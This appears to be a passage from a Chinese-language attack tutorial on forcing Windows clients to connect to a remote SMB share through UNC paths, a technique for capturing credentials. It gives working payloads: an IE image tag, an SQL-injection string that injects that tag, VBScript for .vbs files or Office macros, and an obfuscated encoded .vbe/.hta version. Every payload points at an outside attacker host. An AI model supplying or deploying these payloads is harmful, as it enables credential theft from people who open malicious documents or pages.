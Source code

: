 

**IE**

IE可以解析UNC路径，利用方法如下：

```
&lt;img src="\\192.168.0.1\aa"&gt;
```

你也可以将它注入到XSS中，或你发现的SQL注入场景中，例如：

```
http://host.tld/?id=-1' union select 1,'&lt;img src="\\192.168.0.1\aa"&gt;';%00
```



**VBScript**

你可以将下面的代码存储为“.vbs”文件，或者内嵌到Word/Excel文件的宏里面：



```
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
```

你也可以将它应用到WEB网页中，不过这种方法只适用于IE：



```
S&lt;html&gt;
&lt;script type="text/Vbscript"&gt;
&lt;!--
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```

下面是编码过的版本，你可以将它进行编码，并存储为“.vbe”文件：

```
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
```

也可以在HTML文件中应用它。不过还是只适用于IE。你需要将它存储为“.hta”文件，利用方法如下：



```
&lt;html&gt;
&lt;script type="text/Vbscript.Encode"&gt;
&lt;!--
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```

